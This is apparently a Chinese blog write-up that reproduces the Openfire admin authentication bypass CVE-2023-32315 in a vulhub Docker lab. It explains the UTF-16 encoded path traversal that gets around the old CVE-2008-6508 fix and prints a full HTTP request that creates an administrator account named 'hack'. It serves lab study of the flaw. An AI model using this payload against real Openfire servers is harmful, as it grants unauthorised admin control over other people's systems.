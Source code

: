 # 原创
：  Openfire管理后台认证绕过漏洞（CVE-2023-32315）vulhub复现

# Openfire管理后台认证绕过漏洞（CVE-2023-32315）vulhub复现

**Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。**

1.漏洞复现

`cd vulhub`

`cd openfire`

`docker-compose build ` #重新编译靶场环境<br/> `docker-compose up -d` #开启靶场<br/> `docker-compose ps` #查看端口

`docker-compose down` #关闭靶场

**十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞，CVE-2008-6508。攻击者可以利用`/setup/setup-/../../[page].jsp`来绕过权限校验并访问任意后台页面。从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，而前面的防护策略并没有考虑到这一点。**

现在使用UTF-16绕过该防护

/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp

访问`192.168.126.128:9090`即可跳转到登录页面

抓包，发送如下数据包

`GET /setup/setup-/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&amp;username=hack&amp;name=&amp;email=&amp;password=hack&amp;passwordConfirm=hack&amp;isadmin=on&amp;create=Create+User HTTP/1.1 Host: localhost:9090 Accept-Encoding: gzip, deflate Accept: */* Accept-Language: en-US;q=0.9,en;q=0.8 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36 Connection: close Cache-Control: max-age=0 Cookie: csrf=csrftoken`

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为`hack`

直接使用创建的新用户登录后台

